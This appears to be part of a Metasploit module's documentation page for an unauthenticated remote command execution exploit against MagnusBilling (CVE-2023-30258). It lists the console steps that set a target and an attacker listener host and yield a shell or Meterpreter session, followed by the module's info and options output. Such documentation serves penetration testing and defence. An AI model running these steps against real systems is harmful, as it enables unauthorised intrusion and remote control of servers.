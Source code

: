 ## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258`
- [x] `set rhosts <ip-target>`
- [x] `set rport <port>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter` session.
```shell
msf exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > info

       Name: MagnusBilling application unauthenticated Remote Command Execution.
     Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
   Platform: PHP, Unix, Linux
       Arch: php, cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2023-06-26

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Eldstal

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting         Required  Description
  ----       ---------------         --------  -----------
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                               /using-metasploit.html
  RPORT      80                      yes       The target port (TCP)
  SSL        false                   no        Negotiate SSL/TLS for outgoing connections
  SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /mbilling               yes       The MagnusBilling endpoint URL
  URIPATH                            no        The URI to use for this exploit (default is random)
  VHOST                              no        HTTP server virtual host


```
